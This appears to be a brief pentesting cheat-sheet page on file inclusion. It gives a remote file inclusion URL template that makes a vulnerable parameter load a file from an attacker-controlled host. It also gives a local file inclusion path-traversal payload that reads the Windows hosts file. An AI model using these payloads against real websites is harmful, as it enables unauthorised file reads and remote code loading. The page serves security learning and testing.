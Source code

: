 # File inclusion

## <mark style="color:green;">Remote File Inclusion</mark>

Also known as RFI, it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc.

{% code overflow="wrap" lineNumbers="true" %}
```url
http://$url/$query?$value=//$myip/somefile
```
{% endcode %}



## <mark style="color:green;">Local File Inclusion</mark>

Also known as LFI, able to get a website to include a file that was not intended to be an option for this application

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$value=../../../../../../WINDOWS/system32/drivers/etc/hosts #Common file for save host name and ip in windows, we use ../ to get to the root directory C:\
```
{% endcode %}


